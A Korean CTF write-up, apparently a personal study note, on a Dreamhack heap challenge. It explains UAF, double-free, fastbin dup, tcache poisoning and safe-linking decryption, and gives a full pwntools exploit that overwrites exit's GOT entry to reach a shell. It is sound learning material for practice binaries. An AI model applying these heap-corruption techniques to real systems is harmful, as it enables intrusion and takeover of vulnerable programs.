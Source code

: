 ```yaml
---
quickshare-date: 2024-08-11 00:06:00
quickshare-url: "https://noteshare.space/note/clzo9qb8i1968301mwtxgwoww1#+1TMybtdY+YjMZCypwTJsYBMf6QhquhYGDGka5JkzI0"
---
```

# UAF, DFB, fastbin dup into stack

알아간 것 : 0x20짜리 청크는 되는데 왜 0x30짜리는 안 되는걸까
0x30짜리 청크는 tcache에서 재할당을 해서 fastbin 관련 공격이 안 되는 것이었다.
edit이 되므로 tcache positioning으로 똑같이 풀 수 있을 것 같다.
근데 gdb는 적당히 작은 모든 청크는 재할당을 안 하던데...

heap base라는 것을 처음 알았다.
heap safe linking을 듣기만 했어서 (>> 12) 연산을 한 번만 하면 되는 줄 알았는데 그런 게 아니었고,
결국 공식 답을 보고서 깨달았다.

```python
def decrypt_safe_link(addr): # by Dreamhack's writeup
    key = (addr & 0x0000fff000000000) >> (4 * 3)
    decrypted = addr ^ key
    key = (decrypted & 0x0000000fff000000) >> (4 * 3)
    decrypted = decrypted ^ key
    key = (decrypted & 0x0000000000fff000) >> (4 * 3)
    decrypted = decrypted ^ key
    return decrypted
```

어이가 없었지만.. 이걸로 배웠다면 충분하다.

win 함수가 있는 줄 몰랐다. fake chunk를 스택에 만들어서 ROP까지 해야하는 게 5렙인가 생각했었는데 헛고생할뻔했다. 빨리 공식 답을 보길 잘했다.

tcache 청크는 fd에 data의 주소를 넣고, fastbin 청크는 fd에 청크 시작 주소를 넣는다. 그래서 0x10만큼 차이가 난다.

예전에 tcache positioning이 너무 어려워서 이해를 포기하고 넘겼었는데, 이번에 문제를 보자마자 구조가 떠오르면서 한 번에 이해가 됐다.(그렇지만 아직 헷갈리더라)
그래도 익스 코드보면 바로 이해할테니, 코드에 대한 설명은 생략하겠다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 10988)
e = ELF('./note')

def create(idx, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'idx: ', idx)
    p.sendlineafter(b'size: ', size)
    p.sendafter(b'data: ', data)

def rd(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', idx)

def edit(idx, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', idx)
    p.sendafter(b'data: ', data)

def delete(idx):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'idx: ', idx)

def decrypt_safe_link(addr):
    key = (addr & 0x0000fff000000000) >> (4 * 3)
    decrypted = addr ^ key
    key = (decrypted & 0x0000000fff000000) >> (4 * 3)
    decrypted = decrypted ^ key
    key = (decrypted & 0x0000000000fff000) >> (4 * 3)
    decrypted = decrypted ^ key
    return decrypted

create(b'5', b'48', b'csh')

for _ in range(7):
    create(b'9', b'48', b'a')
    delete(b'9')

for i in range(2):
    create(str(i).encode(), b'32', b'csh')

delete(b'0')
delete(b'1')
delete(b'0')

rd(b'9')
leak = u64(p.recvline().split()[1].ljust(8, b'\x00'))
print('leak..', hex(leak))

decrypted_leak = decrypt_safe_link(leak)
print('decrypted_leak..', hex(decrypted_leak))

fake_chunk_addr = 0x4040f0

create(b'0', b'32', p64(fake_chunk_addr ^ ((decrypted_leak >> 12))))  # A
# status of fastbin: B -> A -> B -> ..
# *A = fake_chunk_addr
# status of fastbin: B -> A -> fake_chunk_addr -> ..

create(b'0', b'32', b'b')  # B
# status of fastbin: A -> fake_chunk_addr -> ..

create(b'0', b'32', b'a')  # A
# status of fastbin: fake_chunk_addr -> ..

# overwrite a string pointer with the got entry of exit()
create(b'0', b'32', p64(e.got['exit']))  # malicious chunk *_*

# overwrite the got entry of exit() with win()
edit(b'5', p64(0x0000000000401256))  # win()

# get shell by calling exit()
p.sendlineafter(b'>', b'1')
p.sendlineafter(b'idx: ', b'-1')

p.interactive()
```